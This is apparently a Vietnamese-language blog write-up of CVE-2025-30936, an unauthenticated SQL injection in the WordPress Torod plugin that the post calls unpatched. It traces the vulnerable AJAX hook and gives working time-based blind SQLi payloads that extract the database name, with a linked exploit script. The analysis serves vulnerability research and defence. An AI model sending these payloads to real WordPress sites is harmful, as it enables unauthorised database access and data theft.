 ```yaml
---
title: CVE-2025-30936 Analysis & POC
description: Security Vulnerability in WordPress Torod Plugin.
date: 2025-09-10 00:01:00 +0700
categories: [Vulnerabilities, CVE Analyst]
tags: [analyst, plugin, sqli]
---
```


---

## Introduction
Lỗ hổng xảy ra trên plugin **Torod** của WordPress. Điều này có thể cho phép kẻ tấn công trực tiếp tương tác với cơ sở dữ liệu của bạn, bao gồm không giới hạn ở việc đánh cắp thông tin.
- **CVE ID**: [CVE-2025-30936](https://www.cve.org/CVERecord?id=CVE-2025-30936)
- **Product**: [WordPress Torod Plugin](https://wordpress.org/plugins/torod/)
- **Vulnerability Type**: SQL Injection  
- **Affected Versions**: <= 1.9 
- **Fixed in**: <= N/A 
- **CVSS severity**:  High (9.3) 
- **Required Privilege**: Unauthenticated

---

## Requirements
- [**Local WordPress and Debugging**](https://w41bu1.github.io/posts/wordpress-local-and-debugging/)
- **Torod**: v1.9

---

## Analysis
Nguyên nhân cố lõi do ứng dụng chèn trực tiếp dữ liệu từ **POST** request vào SQL query mà không có cơ chế quản kiểm soát chặt chẽ.

### Vulnerable Sink
CVE này không có bản vá nên không thể sử dụng **diff tool** để so sánh sự khác biệt giữa **code lỗi** và **code đã fix lỗi**.

> Trong WordPress, để SQLi xảy ra, ứng dụng phải tương tác với database thông qua biến global `$wpdb`, ta search từ khóa này trong thư mục của plugin để tìm sink. 
{: .prompt-tip }

![Search sink](assets/img/posts/2025-09-10-CVE-2025-30936/search_sink.png)

👉 Dữ liệu từ `$_POST['country_id']` được đưa thẳng vào truy vấn SQL mà không có cơ chế kiểm soát hợp lệ. Việc chỉ sử dụng `sanitize_text_field()` mới dừng lại ở mức **escape chuỗi**, chứ không đảm bảo tính an toàn. Do đó, lỗ hổng SQLi có thể xảy ra.

- Source: `$_POST['country_id']`
- Sink: `$wpdb->get_results("SELECT * FROM $table_name WHERE country_id = $country_id")`

### How it work?
Lỗ hổng nằm trong hàm `get_regions_and_cities` của class `ajaxyk` thuộc file **inc/ajaxyk.php**. Để xác định nơi nó được gọi, ta tìm kiếm với từ khóa `get_regions_and_cities` trong thư mục chứa plugin.

![Search 1](assets/img/posts/2025-09-10-CVE-2025-30936/search_1.png)

👉 `get_regions_and_cities` được construct của class `ajaxyk` gọi làm callback của 2 action hook thông qua hàm `add_action`

- `wp_ajax_get_regions_and_cities`
    - Được viết theo cú pháp `wp_ajax_{$action}`
    - Yêu cầu người dùng đăng nhập

- `wp_ajax_nopriv_get_regions_and_cities` 
    - Được viết theo cú pháp `wp_ajax_nopriv_{$action}`
    - Không yêu cầu người dùng đăng nhập

Vì đây là lỗ hổng **unauthenticated** nên ta chỉ quan tâm tới hook `wp_ajax_nopriv_get_regions_and_cities`.

Như vậy khi gửi **POST** request đến `/wp-admin/admin-ajax.php` với tham số

```
action=wp_ajax_nopriv_get_regions_and_cities&country_id=payload_here:
```

- Callback `get_regions_and_cities` được gọi.
- `country_id` được lấy trực tiếp từ request và chèn vào SQL query.
- Query thực thi với payload độc hại.

---

## Exploit
### Detect SQLi

Gửi **POST request** chứa payload SQLi.

```http
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: localhost
...
Cookie: cookie_here

action=get_regions_and_cities&country_id=(SELECT 1 FROM (SELECT SLEEP(5))a)
```

Khi đó câu query sẽ trở thành:

```sql
SELECT * FROM wp_torod_regions WHERE country_id = (SELECT 1 FROM (SELECT SLEEP(5))a)
```

![Responsed time](assets/img/posts/2025-09-10-CVE-2025-30936/time_resp.png)

👉 Dựa trên thời gian phản hồi => payload hoạt động.

**Các technique có thể sử dụng trong trường hợp table rỗng**:

- **UNION**: vì nó không phụ thuộc vào dữ liệu bảng của câu query trước đó, nhưng cần phải tìm được số cột tương ứng.
- **Subquery**:
    - **Subquery trong mệnh đề WHERE**: MySQL có thể tối ưu hóa và bỏ qua subquery nếu kết quả có thể xác định sớm. Nếu bảng không có dữ liệu, kết quả cuối cùng sẽ là tập rỗng, MySQL không cần thực thi `SLEEP()`.
    - **Subquery trong mệnh đề FROM**: Truy vấn con được coi là bảng tạm thời. MySQL phải thực thi truy vấn con này đầu tiên để tạo bảng tạm thời, sau đó mới thực thi truy vấn chính. 

![SQL Excution Order](https://www.kdnuggets.com/wp-content/uploads/ferrer_essential_guide_sql_execution_order_6.png)

### Get First Letter of Database Name

Điều kiện tiên quyết để **dump được hết data** là phải dump được 1 ký tự bất kỳ của tên database, nếu lấy được thì gần như toàn bộ data đều dump được.

Gửi request với **SQLi payload**:

```http
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: localhost
...
Cookie: cookie_here

action=get_regions_and_cities=1&country_id=(SELECT 1 FROM (SELECT IF(SUBSTRING(SCHEMA(),1,1)=0x77, SLEEP(5), 1))a)
```

Sử dụng `SUBSTRING()` để lấy ký tự đầu tiên của **database name**, `IF()` trả về `SLEEP(5)` nếu ký tự đó là `0x77`('w')

Sử dụng hex encoding `w` thành `0x77` vì `country_id` được lấy từ **POST** request trong nên bị escape bởi [magic quotes](https://patchstack.com/academy/wordpress/vulnerabilities/sql-injection/#magic-quotes) trong WordPress và bởi `sanitize_text_field`.

👉 Dựa trên thời gian phản hồi => kí tự đầu tiên đúng là `w`.

Dựa trên kĩ thuật **Timebased SQLi** ta viết script để tự động khai thác.

[Script here](https://github.com/w41bu1/w41bu1.github.io/blob/main/assets/code/posts/2025-09-10-CVE-2025-30936/script.py)

---

## Conclusion
Lỗ hổng **CVE-2025-30936** trong plugin WordPress **Torod** từ phiên bản **1.9** trở lại, xuất phát từ việc truyền trực tiếp input từ người dùng vào SQL query mà không có biện pháp kiểm soát chặt chẽ dẫn đến lỗ hổng SQL Injection.

Chưa có bản vá chính thực nào cho lỗ hổng này.

**Key takeaways**:
- Kiểm soát kỹ input từ người dùng.
- Luôn sử dụng `$wpdb->prepare()` khi làm việc với database trong WordPress để tránh SQL Injection.
- Thường xuyên cập nhật plugin và kiểm tra bảo mật để tránh trở thành mục tiêu tấn công.

---

## References

[SQL Injection cheat sheet - PortSwigger](https://portswigger.net/web-security/sql-injection/cheat-sheet)

[WordPress Torod Plugin <= 1.9 is vulnerable to SQL Injection](https://patchstack.com/database/wordpress/plugin/torod/vulnerability/wordpress-torod-1-9-sql-injection-vulnerability?_s_id=cve)

---